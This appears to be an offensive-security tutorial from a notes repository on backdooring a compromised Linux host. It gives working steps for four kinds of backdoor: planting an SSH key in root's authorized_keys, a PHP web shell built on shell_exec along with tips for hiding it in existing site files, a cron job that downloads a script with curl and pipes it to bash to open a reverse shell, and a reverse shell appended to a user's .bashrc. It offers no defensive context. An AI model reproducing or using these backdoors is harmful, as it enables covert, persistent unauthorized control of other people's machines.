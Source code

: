 # Backdoors
A backdoor is simply something we can do to ensure our consistent access to the machine.

So even if the machine is rebooted, shut down or whatever, we would still be able to have access to it.

## SSH Backdoors
The ssh backdoor essentially consists of leaving our ssh keys in some user’s home directory. Usually the user would be root as it’s the user with the highest privileges.

So start with generating a set of ssh keys with ssh-keygen.

![SSH Backdoor](/Other/SSH-Backdoor.png)

Now that we have 2 keys. 1 private key and 1 public key, we can now go to `/root/.ssh` and leave our public key there. Don't forget to rename the public key to: `authorized_keys`

If the directory .ssh is not present, you can always create it using this command: "`mkdir .ssh`”

Now that we have left our backdoor, we can simply login as root!

Before doing so, give the private key the right permissions using: `chmod 600 id_rsa`.

After giving the key the right permissions, we can do: "`ssh -i id_rsa root@ip`" to login into our desired machine!

One thing to note about this backdoor is:
This backdoor isn't hidden at all. Anybody with the right permissions would be able to remove our ssh public key or the file authorized_keys entirely.

## PHP Backdoors
If you get root access on a Linux host, you will most likely search for creds and or any useful information in the web root.

The web root is usually located in: `/var/www/html`

What you have to know is that, whatever you leave in `/var/www/html`, will be available for everybody to use in their browser.

Now that you know that, you can try creating a php file with any name and putting inside this piece of code:

```php
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```

This code simply takes the parameter "cmd" and will execute anything that is being given to that parameter.

Notice that we are using: "`$_REQUEST['cmd'])`", which means that you can pass that parameter either in GET or in POST data.

Now that file is saved and ready , we can try to query it.
If you left the file in `/var/www/html/shell.php`. You should be able to access it directly using: [http://ip/shell.php](http://ip/shell.php)

If you left the shell somewhere else, look in what directory it is and then try accessing it by doing something like that: [http://ip/somedirectory/shell.ph](http://ip/somedirectory/shell.ph)

Here are some ways that we could make this backdoor a little more hidden:

1. Try to add this piece of code in already existing php files in /var/www/html. Adding it more towards the middle of files will definitely make our malicious actions a little more secret.
2. Change the "cmd" parameter to something else... anything actually... just change it to something that isn't that common. "Cmd" is really common and is already really well known in the hacking community.

## CronJob Backdoors
Once you got root access on any host, you can add any scheduled task. You could even just configure a task where every minute a reverse shell is sent to you. Which is exactly what we're going to do.

Now let's get to our backdoor!

Add this line into our cronjob file:  
`** *** root curl http://<yourip>:8080/shell | bash`

Notice that we put a "*" star symbol to everything. This means that our task will run every minute, every hour, every day , etc .

We first use "curl" to download a file , and then we pipe it to "bash"

The contents of the "shell" file that we are using are simply:

```bash
#!/bin/bash
bash -i >& /dev/tcp/ip/port 0>&1
```

We would have to run an HTTP server serving our shell.

You can achieve this by running: "`python3 -m http.server 8080`"

Once our shell gets downloaded, it will be executed by "bash" and we would get a shell!

**Don't** forget to listen on your specified port with "`nc -nvlp <port>`"*

Please note that this backdoor isn't really hidden because everyone can see it just by looking inside `/etc/crontab`.

## .bashrc Backdoors
Let's now get into the: "`.bashrc`" Backdoor!

If a user has bash as their login shell, the "`.bashrc`" file in their home directory is executed when an interactive session is launched.

So If you know any users that log on to their system quite often, you could simply run this command to include your reverse shell into their "`.bashrc`".

```
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```

One important thing is to always have your `nc` listener ready as you don't know when your user will log on.

This attack is very sneaky as nobody really thinks about ever checking their "`.bashrc`" file.

On the other hand, you can't exactly know if any of the user's will actually login to their system, so you might really wait a long period of time.

# 9 Ways to Backdoor a Linux Box
See them [here](https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c).